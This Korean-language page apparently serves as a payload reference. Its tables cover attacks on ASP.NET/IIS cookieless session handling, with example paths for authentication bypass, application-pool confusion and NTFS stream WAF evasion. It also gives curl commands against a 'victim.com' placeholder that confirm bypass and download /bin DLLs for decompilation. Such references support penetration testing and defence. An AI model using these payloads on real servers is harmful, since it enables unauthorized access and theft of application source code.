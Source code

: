 ## 공격기법

### Reconnaissance

| 공격 이름                     | 예시 페이로드                                      | 설명                                                                                                                         | 출처 |
|-------------------------------|----------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------|------|
| Cookieless Session Discovery  | `/default.aspx/(S(dummy))/profile.aspx`            | URL 경로에 `/(S(...))/` 세션 토큰 패턴을 삽입하여 cookieless session 지원 여부를 탐지한다. 이를 통해 공격 가능성을 사전 확인한다. | [1]  |

### Divergence

| 공격 이름                          | 예시 페이로드                                                      | 설명                                                                                                                                  | 출처 |
|------------------------------------|---------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------|------|
| Double Session Token Injection     | `/public/(S(abc123))/page/(S(xyz456))/dashboard.aspx`               | IIS 인증 모듈과 ASP.NET 라우팅 모듈 간 파싱 경계 차이를 유발하기 위해 경로 중간에 이중 `/(S(...))/` 세그먼트를 삽입하여 인증 필터를 우회한다. | [1]  |
| Application Pool Confusion Injection | `/(S(X))/(S(X))/classic/AppPoolPrint.aspx`                          | 경로 시작 부분에 이중 `/(S(X))/` 세그먼트를 주입하여, IIS가 해당 요청을 자식 애플리케이션이 아닌 부모의 Application Pool 컨텍스트에서 처리하도록 유도한다. | [1]  |

### Obfuscation

| 공격 이름          | 예시 페이로드                                          | 설명                                                                                     | 출처 |
|--------------------|-------------------------------------------------------|------------------------------------------------------------------------------------------|------|
| NTFS ADS Evasion   | `/bin/SharpApp.dll::$INDEX_ALLOCATION`                | NTFS Alternate Data Stream(ADS) 기능을 활용해 URL 필터링 및 WAF 룰을 우회하여 DLL 경로 노출을 유도한다. | [2]  |

### Injection & Bypass

| 공격 이름                       | 예시 페이로드                | 설명                                                                                                                                     | 출처 |
|---------------------------------|-----------------------------|------------------------------------------------------------------------------------------------------------------------------------------|------|
| Path Injection Auth Bypass      | `/protected/(S(evil))/page.aspx` | `(S(...))` 토큰을 경로에 삽입하여 IIS가 토큰을 무시하도록 유도하고, ASP.NET 모듈이 이를 유효 세션으로 처리하게 만들어 인증 우회에 성공한다. | [1]  |
| ASP.NET Module Routing Exploit  | `/bin/SharpApp.dll`          | cookieless 세션 토큰 없이도 `/bin/*.dll` 요청이 ASP.NET 파이프라인으로 라우팅되도록 유도하여 DLL 파일을 노출한다.                          | [2]  |

### Validation

| 공격 이름                      | 예시 페이로드                                                                    | 설명                                                                                                 | 출처 |
|--------------------------------|---------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------|------|
| Anonymous Access Verification  | `curl -I https://victim.com/(S(session))/protected/resource.aspx`                | 인증 없이 보호된 리소스에 요청을 보내고, HTTP 200 OK 수신 여부를 통해 인증 우회 성공 여부를 검증한다. | [1]  |
| DLL Exposure Validation        | `curl --range 0-1023 https://victim.com/bin/SharpApp.dll`                       | Range 헤더로 DLL 파일 일부를 요청해 응답에 MZ 바이너리 헤더가 포함되었는지 확인함으로써 DLL 노출 여부를 확인한다. | [2]  |

### Exploitation

| 공격 이름                          | 예시 페이로드                                                      | 설명                                                                                                                       | 출처 |
|------------------------------------|-------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------|------|
| Anonymous Resource Execution       | `/webform/(S(exec))/handler.ashx`                                | 익명 권한으로 `.ashx` 또는 `.asmx` 핸들러에 접근하여 서버 측 로직을 실행하고, 동적 로드된 DLL을 통해 추가 권한 상승을 시도한다. | [1]  |
| PathInfo-based App Pool Confusion  | `/cla/(S(X))ssic/AppPoolPrint.aspx/(S(X))/`                      | ASP.NET의 PathInfo 기능 중 `.aspx` 확장자 뒤에 `/(S(X))/` 패턴을 추가하여 부모 애플리케이션 풀 컨텍스트에서 페이지가 실행되도록 유도한다. | [1]  |

### Exfiltration

| 공격 이름                              | 예시 페이로드            | 설명                                                                                                            | 출처 |
|----------------------------------------|--------------------------|-----------------------------------------------------------------------------------------------------------------|------|
| Source Code Extraction via DLL Decompilation | `/bin/SharpApp.dll`     | 다운로드한 DLL 파일을 디컴파일 도구(dnSpy 등)로 분석하여 내부 비즈니스 로직 및 소스 코드를 추출한다.             | [2]  |

---